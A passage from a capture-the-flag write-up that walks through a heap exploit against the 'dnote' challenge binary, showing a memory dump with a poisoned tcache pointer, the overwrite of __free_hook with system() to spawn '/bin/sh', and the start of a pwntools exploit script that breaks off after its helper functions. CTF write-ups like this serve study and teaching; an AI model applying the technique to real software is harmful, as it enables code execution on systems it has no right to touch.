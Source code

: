 ```
0xcacb10:   0x0000000000000000  0x0000000000000000
0xcacb20:   0x0000000000000000  0x0000000000000000
0xcacb30:   0x0000000000000000  0x0000000000000111
0xcacb40:   0x00007f43934d37cc  0x0000000000ca000a    <-- Forward pointer changed
0xcacb50:   0x0000000000000000  0x0000000000000000
0xcacb60:   0x0000000000000000  0x00000000000000e1
0xcacb70:   0x00007f43934d0c00  0x00007f43934d0c00    <-- Unsorted bin
0xcacb80:   0x0000000000000000  0x0000000000000000
0xcacb90:   0x0000000000000000  0x0000000000000000
0xcacba0:   0x0000000000000000  0x0000000000000000
```

We can see that it’s the correct position for our fake forward pointer. Let’s see if it’s the address of `__free_hook` or not:

![check_free_hook_address.png](/static/images/foobar-ctf-2022/images/check_free_hook_address.png)

![free_hook_address.png](/static/images/foobar-ctf-2022/images/free_hook_address.png)

That’s correct. Let’s move on the final stage to get shell!

### Stage 4: Overwrite `__free_hook` with system()

Now, we just need to malloc 2 chunk with the same size as 0x100 to get the address from tcache and with second malloc, we will overwrite the address of system to that. With the first chunk, we will put the string `/bin/sh` into it so we just reuse this chunk to execute system("/bin/sh"):

```
add(11, 0x100, b'/bin/sh')
add(12, 0x100, p64(libc.sym['system']))
```

And finally, we free() chunk index 11 and get shell:

```
free(11)
```

Full code:

```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./dnote_patched", checksec=False)
libc = ELF("./libc-2.32.so", checksec=False)
ld = ELF("./ld-2.32.so", checksec=False)

context.binary = exe
context.log_level = 'debug'

def add(idx, size, data):
    p.sendlineafter('>> ', b'1')
    p.sendlineafter('no : ', str(idx).encode())
    p.sendlineafter('size : ', str(size).encode())
    p.sendlineafter('Name : ', data)

def show(idx):
    p.sendlineafter('>> ', b'2')
    p.sendlineafter('no : ', str(idx).encode())
    return p.recvuntil(b'\n', drop=True)

def free(idx):
    p.sendlineafter('>> ', b'3')
    p.sendlineafter('no : ', str(idx).encode())

```